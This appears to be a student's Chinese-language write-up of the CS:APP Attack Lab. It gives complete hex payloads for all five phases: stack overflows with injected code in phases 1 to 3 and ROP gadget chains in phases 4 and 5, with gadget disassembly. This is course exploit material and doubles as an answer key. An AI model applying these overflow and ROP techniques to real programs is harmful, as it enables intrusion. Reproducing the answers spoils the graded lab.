 跟着pdf慢慢来
# phase 1
发现栈大小是0x28，touch1地址是0x004017c0，直接拿字符串怼过去，把地址塞进栈里原来的返回地址
```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
c0 17 40 00 00 00 00 00
```
然后存进ans.txt，再cat ans.txt | ./hex2raw | ./ctarget -q即可
# phase 2
跟着https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md来的
答案：
```
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00
```
# phase 3
和phase 2大同小异
```
48 c7 c7 b0 dc 61 55
68 fa 18 40 00   
c3 
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 
78 dc 61 55 00 00 00 00
```
# phase 4
不会，看别人的：


这题要求在新的保护下重复第二题的结果，将 `cookie` 值传入 `%rdi` ，这里和第二题一样使得栈溢出，然后将返回地址设为 `gadgets` 攻击链的起始地址。攻击链可以这样构造，观察代码发现：

```
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
```

查阅文档， `58 90` 即是 `popq %rax` ，`90` 是 `nop` ，可以直接忽视，这段代码地址是 `0x4019ab` ，它将栈上的值存入了寄存器，接着发现：

```
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3
```

查阅文档， `48 89 c7` 就是 `movq %rax,%rdi` ，就将栈上的值存入了 `%rdi` ，因此将 `cookie` 值存入栈中，就可以传值，这段代码地址是 `0x4019a2` 。    
因此输入字符串先是一段填充的 40 字节，然后是跳转地址，设为 pop 的地址 `0x4019ab` ，接着存入 `cookie` 值（就是将要 pop 的那个值，注意应存入 64 位值），然后是 mov 的地址 `0x4019a2` ，最后跳转到 `touch2` ，这样一个完整的 ROP 攻击链就形成了，一个可行的答案就是：

```
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
51 51 51 51 51 51 51 51 51 51
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
# phase 5
慢慢来，一个一个对着表弄
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
00
```